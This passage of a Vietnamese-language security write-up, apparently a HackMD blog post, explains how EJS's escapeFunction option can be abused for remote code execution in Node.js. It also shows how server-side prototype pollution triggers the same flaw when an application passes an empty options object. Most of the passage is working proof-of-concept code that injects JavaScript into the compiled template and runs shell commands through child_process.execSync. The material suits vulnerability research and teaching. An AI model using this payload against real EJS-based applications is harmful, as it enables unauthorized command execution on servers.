 ```js 
try {
  var __output = "";
  function __append(s) { if (s !== undefined && s !== null) __output += s }
  with (locals || {}) {
    ; __append("<h1>Hello ")
    ; __append(escapeFn( name ))
    ; __append("</h1>")
  }
  return __output;
} catch (e) {
  rethrow(e, __lines, __filename, __line, escapeFn);
}

}
```
Và ta đã có thể chạy bất kì js command nào !!!
```js
escapeFn = escapeFn || JSON.stringify; console.log(1337);let cp = process.mainModule.require('child_process');console.log(cp.execSync('id').toString());;
```
![image](https://hackmd.io/_uploads/HyQcobyOxg.png)

## Prototype pollution to RCE . 
- Nhưng trong thực tế ta sẽ không kiểm soát được options được chèn vào . Vậy sẽ ra sao nếu ta có một prototype pollution ở phía server ? Test với đoạn code sau  : 

```js 
const ejs = require("ejs")
const template = '<h1>Hello <%= name %></h1>';
ejs.clearCache();
escapeFunction = "JSON.stringify; console.log(1337);let cp = process.mainModule.require('child_process');console.log(cp.execSync('id').toString());"
Object.prototype.client = true
Object.prototype.escapeFunction = escapeFunction
const data = { name: "12113awefeaw" }
const compiled = ejs.render(template, data); // not works 
console.log(compiled.toString())

```
Hmmmm , ta thấy không có gì xảy ra cả vì nếu để ý từ đầu đoạn code đã có một phần check rất rõ  : 
```js
      exports.render = function (template, d, o) {
        var data = d || utils.createNullProtoObjWherePossible();
        var opts = o || utils.createNullProtoObjWherePossible();
      }
```
Điều này đã block việc protoytpe pollution nhưng có một vấn đề là nhiều project ở ngoài kia sẽ không bao giờ để trống options field và đơn giản sẽ truyền vào đó một **empty object** ~ ~!! chính điều này là root cause cho việc bypass này , để simluate ta đơn giản chỉ cần truyền {} vào là đc .
```js 
const ejs = require("ejs")
const template = '<h1>Hello <%= name %></h1>';
ejs.clearCache();
escapeFunction = "JSON.stringify; console.log(1337);let cp = process.mainModule.require('child_process');console.log(cp.execSync('id').toString());"
Object.prototype.client = true
Object.prototype.escapeFunction = escapeFunction
const data = { name: "12113awefeaw" }
const compiled = ejs.render(template, data, {}); // works now with polluted {}
console.log(compiled.toString())
``` 
- Tèn ten , điều này hoạt động vì hàm render sẽ ưu tiên nhận object từ ngoài vào.
![image](https://hackmd.io/_uploads/ByAHKC-Ole.png)
